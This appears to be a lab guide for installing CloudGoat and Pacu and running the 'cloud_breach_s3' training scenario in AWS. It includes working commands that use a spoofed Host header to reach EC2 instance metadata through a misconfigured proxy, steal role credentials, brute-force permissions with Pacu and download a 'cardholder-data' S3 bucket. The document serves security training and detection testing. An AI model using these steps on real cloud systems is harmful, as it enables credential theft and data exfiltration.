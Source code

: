 ### Guide Notes
- There are other ways to install the tools and will depend on distro.
- Setting up the AWS profile may very based on an organizations requirements. For instance SSO would vary between org.

### Requirments
- Linux or MacOS. Windows is not officially supported.
  - If you are using Windows we recommand install [WSL2](https://docs.microsoft.com/en-us/windows/wsl/install)
  - If you are using a Linux virtual machine AWS EC2 is not supported
  - In this guide a new Ubuntu VM was created in VM Fusion.  This guide goes through setting up the Ubuntu VM.
- Python3.6+ is required.
- Terraform >= 0.14 installed and in your $PATH.
- The AWS CLI installed and in your $PATH, and an AWS account with sufficient privileges to create and destroy resources.
  - AWS [Named profile configured](https://docs.aws.amazon.com/cli/latest/userguide/cli-configure-profiles.html)

### Install system prerequisites (may already be installed) 

```bash
sudo apt-get update && sudo apt install -y ssh vim net-tools curl git python3-pip 
```

### Install tools for attack (may already be installed) 
- Install awscli
   - Download the package
     ```bash
     curl "https://awscli.amazonaws.com/awscli-exe-linux-x86_64.zip" -o "awscliv2.zip"
     ```
   - Unzip the installer 
     ```bash
     unzip awscliv2.zip
     ``` 
   - Run the install program
     ```bash
     sudo ./aws/install
     ```
- Install terraform
   - Terraform Prerequisites 
     ```bash
     sudo apt-get update && sudo apt-get install -y gnupg software-properties-common
     ```
   - Add the HashiCorp GPG key 
     ```bash
     curl -fsSL https://apt.releases.hashicorp.com/gpg | sudo apt-key add -
     ```
   - Add the official HashiCorp Linux repository 
     ```bash
     sudo apt-add-repository "deb [arch=amd64] https://apt.releases.hashicorp.com $(lsb_release -cs) main"
     ```  
   - Update to add the repository, and install the Terraform CLI 
     ```bash
     sudo apt-get update && sudo apt-get install terraform
     ```

### Install Cloudgoat
  - Use git to clone the Cloudgoat repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/cloudgoat.git ~/cloudgoat && cd ~/cloudgoat
     ```
  - Install the Cloudgoat dependencies 
     ```bash 
     pip3 install -r ./core/python/requirements.txt && chmod u+x cloudgoat.py
     ```

### Install Pacu
  - Use git to clone the Pacu repo to home directory and change to the new directory
     ```bash
     git clone https://github.com/RhinoSecurityLabs/pacu.git ~/pacu && cd ~/pacu
     ```
 - Install the Pacu dependencies 
     ```bash 
     pip3 install -r requirements.txt
     ```

### Setup AWS Profile
- Setup AWS profile for Cloudgoat.  This account will need admin access in AWS.  This will create or add a new profile in ```~/.aws/config``` and ```~/.aws/credentials```

- You will be prompted for ```Access Key ID, AWS Secret Access Key, Default region name, Default output format```
  ```bash
  aws configure --profile cloudgoat
  ```  
- Make the new aws profile your default 
  ```bash 
  export AWS_PROFILE=cloudgoat
  ```
- Verify credentials are working
  ```bash
   aws sts get-caller-identity
  ```
![awsprofile](./images/awsprofile.png)
### Setup Cloudgoat
  - Run Cloudgoat config profile from home directory and set default profile.  You will be prompted to enter an AWS profile from the previous step which we called ```cloudgoat```.  This is how cloudgoat will access AWS.
     ```bash
     ~/cloudgoat/cloudgoat.py config profile
     ```
  - Run Cloudgoat config whitlelist
     ```bash
     ~/cloudgoat/cloudgoat.py config whitelist --auto
     ```

### Setup vulnerable infrastructure with Cloudgoat
Now that the tools are seutp we will use Cloudgoat to setup vulnerable infastuecure in AWS.  This will create a scenario with a misconfigured reverse-proxy server in EC2. 

  - Run the attack scenario 
     ```bash
     ~/cloudgoat/cloudgoat.py create cloud_breach_s3
     ```

![Cloudgoat](./images/cloudgoatout.png)

- ***Copy the response to a text file*** you will need the EC2 IP

### Start attack
At this point we have created vulnerable infrastucute in AWS using Cloudgoat.  Starting as an anonymous outsider with no access or privileges, exploit a misconfigured reverse-proxy server to query the EC2 metadata service and acquire instance profile keys. Then, use those keys to discover, access, and exfiltrate sensitive data from an S3 bucket.

- Replace ```<ec2-ip-address>``` with the IP address from the previoues step to get a role name.  ***Copy the response to a text file*** as you will need the role name for the next attack
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/ -H 'Host:169.254.169.254'
 ```
 
![role](./images/role.png)

- Replace ```<ec2-ip-address>``` and ```<ec2-role-name>``` from the previous steps to get the keys. ***Copy response to text file*** as you will need these stolen crendentials
 ```bash
 curl -s http://<ec2-ip-address>/latest/meta-data/iam/security-credentials/<ec2-role-name> -H 'Host:169.254.169.254'
 ```

![ssrf2](./images/ssrf2.png)  
  
- Next we will use pacu to do discovery with the stolen crendentials
  - Start pacu from the shell session by running ```~/pacu/cli.py```
  - Create new session in pacu named ```cloud_breach_s3```
  - Set the keys using ```set_keys``` from the pacu session using the stolen credentials from the previous step

![pacukeys](./images/pacukeys.png)

- Use pacu to start disocvery using the following modules
  - ```run aws__enum_account``` Get account details:  permission denied 
  - ```run iam__enum_permissions``` Get permissions for IAM entity:  permission denied
  - ```run iam__enum_users_roles_policies_groups``` Get group polices for IAM entity:  permission denied
  - ```run iam__bruteforce_permissions``` Brute force for access to services: **BINGO!**

![output](./images/output.png)

- The stolen credentials have full access to S3
  - Exit pacu by typing ```exit``` and return to attack
- Create a new aws profile with stolen credentials
 ```bash
 aws configure --profile cloud_breach_s3
 ```
 - Set the ```AWS Access Key ID``` and ```AWS Secret Access Key``` using the stolen crendentials
 - Set the "Default region" name and the "Default output" format to ```json```
 - Manually add the ```aws_session_token``` to the aws credentails file (use i for insert mode then esc :wq to save and close)
   ```bash
   vi  ~/.aws/credentials
   ```
![sestoken](./images/sestoken.png)

- List and search buckets the stolen credentails have access to
   ```bash
   aws s3 ls --profile cloud_breach_s3
   ```
![list](./images/list.png)
- Download data from the ``cardholder-data`` bucket to local system home directory.  Replace ```<bucket-name>``` with the bucket to download data
   ```bash
   aws s3 sync s3://<bucket-name> ~/cardholder-data --profile cloud_breach_s3
   ```
- Change to home directory and perfom list to verify data was downloaded
   ```bash
   cd && ls
   ```
![download](./images/download.png)
- Remove vulnerable infrastructure
   ```bash
   ~/cloudgoat/cloudgoat.py destroy cloud_breach_s3
   ```
- Attack had been completed.  Review the detections in dfaws dashboard.  
